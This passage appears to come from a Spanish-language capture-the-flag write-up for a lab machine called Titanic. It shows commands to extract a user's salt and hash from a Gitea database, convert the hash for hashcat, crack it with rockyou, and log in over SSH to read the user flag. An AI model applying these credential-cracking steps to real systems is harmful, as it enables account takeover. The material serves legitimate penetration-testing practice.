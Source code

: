 En el siguiente [artículo](https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes), podemos seguir los pasos para convertir el hash con la herramienta [gitea2hashcat.py](https://raw.githubusercontent.com/unix-ninja/hashcat/refs/heads/master/tools/gitea2hashcat.py)

~~~ bash
wget https://raw.githubusercontent.com/unix-ninja/hashcat/refs/heads/master/tools/gitea2hashcat.py
~~~

Copiaremos los datos que necesitamos, en nuestro caso, podemos directamente copiar el registro de `developer`

~~~ bash
sqlite3 gitea.db 'select salt,passwd from user where name="developer";' | xclip -sel clip
~~~

Ahora utilizaremos `gitea2hashcat.py` de la siguiente manera, esto devolverá un hash que `hashcat` puede intentar crackear

~~~ bash
python3 gitea2hashcat.py "8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
"
[+] Run the output hashes through hashcat mode 10900 (PBKDF2-HMAC-SHA256)

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
~~~

Intentaremos crackear este hash con el modo que nos sugiere el script, el cual corresponde al algoritmo `PBKDF2-HMAC-SHA256`

~~~ bash
hashcat -m 10900 hash.txt /usr/share/wordlists/rockyou.txt -O


sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
~~~


## Shell as `developer`

Hemos encontrado la contraseña `25282528` para el hash de `developer`, intentaremos ver si podemos conectarnos por `ssh` con estas credenciales

~~~ bash
ssh developer@titanic.htb
developer@titanic.htb\'s password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-131-generic x86_64)
...
developer@titanic:~$ 
developer@titanic:~$ export TERM=xterm
~~~

En este punto ya podremos ver la flag del usuario sin privilegios

~~~ bash
developer@titanic:~$ cat /home/developer/user.txt 
78a...
~~~
<br>
